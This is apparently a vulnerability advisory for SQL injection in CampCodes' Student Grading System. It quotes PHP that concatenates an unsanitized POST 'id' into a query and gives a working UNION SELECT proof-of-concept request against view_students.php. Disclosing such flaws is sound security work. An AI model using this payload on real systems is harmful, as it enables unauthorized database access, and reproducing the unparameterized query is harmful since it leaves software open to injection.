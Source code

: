 # SQL Injection in Student Grading System


## Vendor and Product information:
* **Vendor:** CampCodes
* **Product:** Student Grading System
* **Product URL:** https://www.campcodes.com/projects/php/student-grading-system-using-php-mysql-free-download/

## Code
~~~ php
    <?php
    include 'db.php';
    $id = $_POST['id'];
  if($_POST['id']){
    $sql = mysqli_query($conn, "SELECT * From student_info left join program on student_info.PROGRAM = program.PROGRAM_ID where STUDENT_ID = '$id'");
    while($row = mysqli_fetch_assoc($sql)){
     ?>
~~~

## Proof of Concept
**HTTP Request Example**
``` http request
POST /grading/view_students.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 78
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/grading/rms.php?page=Students
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=2'+union+select+1,version(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19--+-
```

## Screenshot
![image](https://github.com/user-attachments/assets/9fb19251-69a3-4685-a78b-1562127d3996)


## CWE
[CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)

## **Credits**
> [John Alan Correche](https://github.com/shaturo1337)
